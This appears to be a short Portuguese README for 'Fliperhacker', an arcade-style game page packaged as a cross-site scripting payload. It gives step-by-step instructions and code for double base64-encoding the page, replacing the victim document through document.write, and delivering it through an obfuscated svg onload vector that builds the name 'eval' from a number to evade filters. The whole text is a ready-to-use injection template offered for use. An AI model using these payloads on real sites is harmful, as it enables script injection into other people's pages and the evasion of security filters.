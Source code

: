 # Fliperhacker
Uma simples página em html  estilo fliperama feita para jogar  alguns dos games que fizemos  em forma de payload para XSS.

! Para tornar este index.html em um payload, não se esqueça de: 

*Encodar ela em base 64. colar o resultado do base64 aqui

	document.addEventListener("DOMContentLoaded", function(event) {

    var pocpage = "base64 aqui";

    document.open();

    document.write(atob(pocpage));

    document.close();
    });;
    
Após isso, refaça o encode desse código js e cole o resultado aqui
 
 
 ><svg/onload=window[490837..toString(1<<5)](atob('resultado_do_segundo_base64_aqui'))>xui.vm
 
 e estará pronto para ser usado :)

